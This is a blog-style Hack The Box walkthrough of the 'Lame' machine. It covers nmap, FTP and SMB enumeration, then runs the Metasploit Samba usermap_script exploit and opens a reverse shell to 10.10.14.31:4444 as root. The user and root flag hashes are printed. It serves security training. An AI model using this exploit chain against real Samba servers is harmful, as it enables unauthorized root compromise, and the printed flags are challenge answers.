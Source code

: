 ```yaml
---
layout: post
title:  "HTB-Lame"
date:   2020-02-15 20:45:57 +0000
categories: HTB-Walkthrough
---
```


![lame](http://localhost:4000/sh1n0bi-dojo/assets/img/lame.png)

Lets kick this off by using nmap to scan the target
`nmap -A 10.10.10.3 |tee -a lame.txt`
The `-A` flag sets the scan to agressive...not always the best choice, but im in a bit of a mood!


{% highlight ruby %}

PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
{% endhighlight %}


1st try anonymous ftp login and enum.

{% highlight ruby %}

ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        65534        4096 Mar 17  2010 .
drwxr-xr-x    2 0        65534        4096 Mar 17  2010 ..
226 Directory send OK.
ftp> pwd
257 "/"
ftp> cd ..
{% endhighlight %}

2nd try smbclient and port 445 enum.
{% highlight ruby %}

root@kali:~/HTB/prep/lame# smbclient -L 10.10.10.3
Enter WORKGROUP\root's password: 
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	tmp             Disk      oh noes!
	opt             Disk      
	IPC$            IPC       IPC Service (lame server (Samba 3.0.20-Debian))
	ADMIN$          IPC       IPC Service (lame server (Samba 3.0.20-Debian))
Reconnecting with SMB1 for workgroup listing.
Anonymous login successful

	Server               Comment
	---------            -------

	Workgroup            Master
	---------            -------
	WORKGROUP            LAME
{% endhighlight %}

We can see that the target is running Samba 3.0.20-Debian, maybe it has some known 
vulnerability we can find, but first lets take the hint and explore `tmp` 

{% highlight ruby %}

root@kali:~/HTB/prep/lame# smbclient //10.10.10.3/tmp
Enter WORKGROUP\root's password: 
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Nov  6 11:38:07 2019
  ..                                 DR        0  Sun May 20 20:36:12 2012
  orbit-makis                        DR        0  Wed Nov  6 11:25:31 2019
  .ICE-unix                          DH        0  Wed Nov  6 10:47:27 2019
  .X11-unix                          DH        0  Wed Nov  6 10:47:51 2019
  gconfd-makis                       DR        0  Wed Nov  6 11:25:31 2019
  5141.jsvc_up                        R        0  Wed Nov  6 10:48:34 2019
  .X0-lock                           HR       11  Wed Nov  6 10:47:51 2019

		7282168 blocks of size 1024. 5678328 blocks available
smb: \> 
{% endhighlight %}

Nothing immediately helpful here...so lets check Searchsploit for possible known exploits.

Searchsploit reveals a metasploit exploit for Samba 3.x
Ok lets see how effective it is...

Start up msfconsole, then:

`use exploit/multi/samba/usermap_script`
use the command `show options` to see what info is required to make this work...
`set rhosts 10.10.10.3`
pull the trigger with `exploit` command...


{% highlight ruby %}

msf5 exploit(multi/samba/usermap_script) > exploit

[*] Started reverse TCP double handler on 10.10.14.31:4444
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo gcMvWCjjW9n0VrCc;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "gcMvWCjjW9n0VrCc\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (10.10.14.31:4444 -> 10.10.10.3:54951) at 2020-01-21 11:42:12 -0500

id
uid=0(root) gid=0(root)
cd /home
ls
ftp
makis
service
user
cd makis
ls
user.txt
cat user.txt
# 69454a937d94f5f0225ea00acd2e84c5
cat /root/root.txt
# 92caac3be140ef409e45721348a4e9df
{% endhighlight %}

Oh, right....that was quick. I can see why the box gets its name from now;
Nobody in their right mind should still be running this Samba version!

A good easy box for beginners to get to have a go at the basic tools, and methodology.
Lets quickly move on to another box...



#######################

